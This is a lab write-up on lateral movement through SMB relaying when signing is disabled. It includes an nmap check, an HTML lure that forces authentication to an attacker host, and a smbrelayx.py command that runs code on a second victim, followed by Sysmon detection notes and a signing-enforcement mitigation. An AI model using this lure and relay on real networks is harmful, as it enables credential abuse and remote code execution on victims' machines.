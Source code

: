 # Lateral Movement via SMB Relaying

This lab looks at a lateral movement technique abusing SMB protocol if SMB signing is disabled.

SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.

If SMB signing is disabled, howeverm packets can be intercepted/modified and/or relayed to another system, which is what this lab is about.

## Environment

* 10.0.0.5 - attacker running Kali linux and smb relaying tool
* 10.0.0.2 - victim1; their credentials will be relayed to victim2
* 10.0.0.6 - victim2; code runs on victim2 with victim1 credentials

{% hint style="warning" %}
Credentials from Victim1 must be for a local admin on Victim2 or be a member of Administrators/Domain Administrators group for this attack to work successfully.
{% endhint %}

Below is a simplified process of how this attack works:

`10.0.0.2` -authenticates to-&gt; `10.0.0.5` -relays to-&gt; `10.0.0.6` executes code with victim1\(10.0.0.2\) credentials

## Execution

One of the ways to check if SMB signing is `disabled` on an endpoint:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-31-10-45-27.png)

Since we know that victim2@10.0.0.6 has SMB signing disabled and is vulnerable to SMB relaying attack, let's create a simple HTML file that once opened will force the victim1 to authenticate to attacker's machine:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
{% endcode %}

{% hint style="info" %}
Any other forced authentication method will also work - follow below link for a list of techniques.
{% endhint %}

{% page-ref page="../initial-access/t1187-forced-authentication.md" %}

...at the same time, let's fire up SMBRelayx tool that will listen for incoming SMB authentication requests and will relay them to victim2@10.0.0.6 and will attempt to execute a command `ipconfig`on the end host:

{% code title="attacker@kali" %}
```text
smbrelayx.py -h 10.0.0.6 -c "ipconfig"
```
{% endcode %}

{% hint style="info" %}
Note that smbrelayx could be used with a `-e` switch that allows attacker to execute their payload file - say, a meterpreter executable.
{% endhint %}

Below is a gif showing the technique in action - on the left - `victim1@10.0.0.2` opening the malicious html we crafted earlier that forces it to attempt to authenticate to the attacker system \(on the right\). Once the authentication attempt comes in, it gets relayed to `victim2@10.0.0.6` and ipconfig gets executed:

![](../../.gitbook/assets/peek-2018-12-30-22-31.gif)

A stop frame from the above gif that highlights that the code execution indeed happend on 10.0.0.6:

![](../../.gitbook/assets/screenshot-from-2018-12-30-22-33-59.png)

## Observations & Mitigation

Smbrelayx.py leaves a pretty good footprint for defenders in Microsoft-Windows-Sysmon/Operational - the parent image is services.exe and the commandline has juicy details - note though that the commandline arguments are subject to forgery:

![](../../.gitbook/assets/screenshot-from-2018-12-31-13-29-13.png)

In order to mitigate this type of attack, the best way to do it is by implementing GPOs if possible by setting the policy **Microsoft network client: Digitally sign communications \(always\)** to `Enabled`:

![](../../.gitbook/assets/screenshot-from-2018-12-31-10-36-45.png)

With the above change, trying to execute the same attack, we get `Signature is REQUIRED` errors message and lateral movement is prevented:

![](../../.gitbook/assets/screenshot-from-2018-12-30-22-36-01.png)

The same nmap scan we did earlier now also shows that the `message signing is required`:

{% code title="attacker@kali" %}
```csharp
nmap -p 445 10.0.0.6 -sS --script smb-security-mode
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2018-12-31-11-05-59.png)

## References

{% embed url="https://ramnathshenoy.wordpress.com/2017/03/19/lateral-movement-with-smbrelayx-py/" caption="" %}

{% embed url="https://blogs.technet.microsoft.com/josebda/2010/12/01/the-basics-of-smb-signing-covering-both-smb1-and-smb2/" caption="" %}

{% embed url="https://nmap.org/nsedoc/scripts/smb-security-mode.html" caption="" %}

